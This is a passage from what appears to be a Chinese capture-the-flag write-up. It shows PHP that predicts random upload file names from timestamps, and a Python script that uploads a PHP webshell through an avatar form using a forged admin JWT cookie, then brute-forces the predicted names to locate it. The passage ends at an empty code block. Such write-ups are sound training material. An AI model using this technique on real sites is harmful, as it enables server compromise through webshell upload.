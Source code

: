 		      $newFileName = '';
		      for ($i = 0; $i < 10; $i++) {
		          $newFileName .= $characters[mt_rand(0, strlen($characters) - 1)];
		      }
		      return $newFileName . ".php";
		  }
		  $filenames = [];
		  $time = time();
		  for($i = $time + 60; $i >=$time-60; $i --) {
		      array_push($filenames, filenameByTimeStamp($i));
		  }
		  echo json_encode($filenames);
		  ```
	- 然后写脚本爆破，缺失的函数补一下就能用了
		- ```python
		  url = "https://vs91x7gz7mswurabxtzqw5fvt.node.game.sycsec.com"
		  cookie = "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJRaW5nd2FuIiwibmFtZSI6ImFkbWluIiwiYWRtaW4iOiJ0cnVlIn0.qs6tjnaghMXiTsvqEMUauz_JGzxxKdtaXPGVtQUEHek"
		  
		  def test_file(filename):
		      r = base_get(url + f"/upload/{filename}")
		      return len(r.text) if r.status_code not in (404, ) else -r.status_code
		  
		  # 传webshell
		  with open("a.php", "rb") as f:
		  
		      r = base_post(url + "/change.php", files = {
		          "avatar": f
		      }, data = {
		          "username": "admin",
		          "skills": "123",
		          "motto": "234"
		      }, cookies = {
		          "token": cookie
		      })
		  
		  out = shell.exec("php genkey.php")[0]
		  print(out)
		  possible_filenames = json.loads(out)
		  
		  # 逐个测试possible_filenames中的文件名
		  d = burst.auto_burst_resp_len_multi(
		      test_file,
		      possible_filenames
		  )
		  del d[-404]
		  print(d)
		  ```
		- ```text
